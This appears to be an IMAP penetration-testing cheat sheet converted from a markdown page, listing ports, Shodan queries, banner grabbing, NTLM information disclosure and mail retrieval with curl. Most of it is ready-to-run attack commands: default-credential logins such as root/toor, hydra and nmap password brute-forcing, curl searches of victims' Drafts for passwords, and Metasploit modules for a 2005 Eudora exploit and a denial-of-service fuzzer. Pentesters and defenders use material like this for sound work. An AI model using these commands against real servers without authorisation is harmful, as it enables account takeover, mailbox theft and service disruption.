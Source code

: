 IMAP

IMAP usually uses ports 143, 993

What is IMAP?

Internet Message Access Protocol (IMAP) is then used by the recipient’s email client to fetch your message from the email server and put it in their inbox.

![Untitled](media/c2df7591eeddcf74baf1bc6715352822.png)

-   **Port 143** - this is the default IMAP non-encrypted port
-   **Port 993** - this is the port you need to use if you want to connect using IMAP securely

| 1 2  | PORT STATE SERVICE VERSION 143/tcp open imap Dovecot imapd (Ubuntu)  |
|------|----------------------------------------------------------------------|

IMAP Pentesting

| **![](media/af8e68b1d4ef60ad4ab180ccb81e05b5.png) Shodan search query :** |
|---------------------------------------------------------------------------|
| port:143, 993                                                             |
| port:143 CAPABILITY                                                       |
| port:993 CAPABILITY                                                       |

Banner Grabbing

| 1 2 3 4 5 6 7 8 9 10 11  | \# Banner grabbing and test connection nc -nv IP 143 A1 LOGIN “root” “” A1 LOGIN root toor A1 LOGIN root root  nmap -p143 -sV --script=banner 192.168.x.x nmap -p143 --script=imap-ntlm-info 192.168.x.x msf \> use auxiliary/scanner/imap/imap_version openssl s_client -connect 192.168.x.x:993 -quiet telnet 192.168.x.x 143  |
|--------------------------|----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|

![Untitled](media/106d913331db081744b551504e10b42e.png)

![Untitled](media/37a14970c357616cc251bd45cdec8385.png)

According to the answers to the sent queries, the features of the POP3 implementation (commands, etc.) can be determined.

| 1  | nmap -sV --script=imap-capabilities -p143 10.10.x.x  |
|----|------------------------------------------------------|

![Untitled](media/d7daf276120c9fd95b645cb54a24efcb.png)

Capturing IMAP Traffic

| 1  | msf \> use auxiliary/server/capture/imap  |
|----|-------------------------------------------|

NTLM Auth - Information disclosure

If the server supports NTLM auth (Windows) you can obtain sensitive info (versions):

| 1 2 3 4 5 6  | root@kali: telnet example.com 143  \* OK The Microsoft Exchange IMAP4 service is ready.  \>\> a1 AUTHENTICATE NTLM  +  \>\> TlRMTVNTUAABAAAAB4IIAAAAAAAAAAAAAAAAAAAAAAA=  + TlRMTVNTUAACAAAACgAKADgAAAAFgooCBqqVKFrKPCMAAAAAAAAAAEgASABCAAAABgOAJQAAAA9JAEkAUwAwADEAAgAKAEkASQBTADAAMQABAAoASQBJAFMAMAAxAAQACgBJAEkAUwAwADEAAwAKAEkASQBTADAAMQAHAAgAHwMI0VPy1QEAAAAA  |
|--------------|-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|

Or **automate** this with **nmap** plugin imap-ntlm-info.nse

Brute Forcing

| 1 2 3  | hydra -l USERNAME -P /path/to/passwords.txt -f \<IP\> imap -V hydra -S -v -l USERNAME -P /path/to/passwords.txt -s 993 -f 192.168.x.x imap -V nmap --script=imap-brute –script-args userdb=Users.list,passdb=Passwords.list -p143 192.168.x.x  |
|--------|------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|

![Untitled](media/4cccdbf82ab68e8dc85445f81df5ad8c.png)

Evolution

| 1  | sudo apt install evolution  |
|----|-----------------------------|

![Untitled](media/9a1a65706c8aaa317a115c632aa0b556.png) ![Untitled](media/cae833a8610c9a5ad244e9001d789622.png)

CURL

Basic navigation is possible with [CURL](https://ec.haxx.se/usingcurl/usingcurl-reademail#imap), but the documentation is light on details so checking the [source](https://github.com/curl/curl/blob/master/lib/imap.c) is recommended for precise details.

| 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27  | \# 1. Listing mailboxes (imap command LIST "" "\*") \$ curl -k 'imaps://10.10.x.x/' --user user:pass  \# 2. Listing messages in a mailbox (imap command SELECT INBOX and then SEARCH ALL) \$ curl -k 'imaps://10.10.x.x/INBOX?ALL' --user user:pass  \# The result of this search is a list of message indicies. \# Its also possible to provide more complex search terms. e.g. searching for drafts with password in mail body: \$ curl -k 'imaps://10.10.x.x/Drafts?TEXT password' --user user:pass  \# A nice overview of the search terms possible is located [HERE](https://www.atmail.com/blog/imap-commands/). \# 3. Downloading a message (imap command SELECT Drafts and then FETCH 1 BODY[]) \$ curl -k 'imaps://10.10.x.x/Drafts;MAILINDEX=1' --user user:pass  \# The mail index will be the same index returned from the search operation. \# It is also possible to use UID (unique id) to access messages, however it is less conveniant as the search command needs to be manually formatted. E.g. \$ curl -k 'imaps://10.10.x.x/INBOX' -X 'UID SEARCH ALL' --user user:pass \$ curl -k 'imaps://10.10.x.x/INBOX;UID=1' --user user:pass  \#Also, possible to download just parts of a message, e.g. subject and sender of first 5 messages (the -v is required to see the subject and sender): \$ curl -k 'imaps://10.10.x.x/INBOX' -X 'FETCH 1:5 BODY[HEADER.FIELDS (SUBJECT FROM)]' --user user:pass -v 2\>&1 \| grep '\^\<'  \#Although, its probably cleaner to just write a little for loop (Python): for m in {1..5}; do  echo \$m  curl "imap://10.10.x.x/INBOX;MAILINDEX=\$m;SECTION=HEADER.FIELDS%20(SUBJECT%20FROM)" --user user:pass done  |
|--------------------------------------------------------------------------|-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|

IMAP Vulnerabilities

| 1 2 3 4  | Eudora Qualcomm WorldMail 3.0 [CVE-2005-4267] msf \> use exploit/windows/imap/eudora_list \#IMAP Fuzzer msf \> use auxiliary/dos/windows/imap/fuzz_imap  |
|----------|----------------------------------------------------------------------------------------------------------------------------------------------------------|
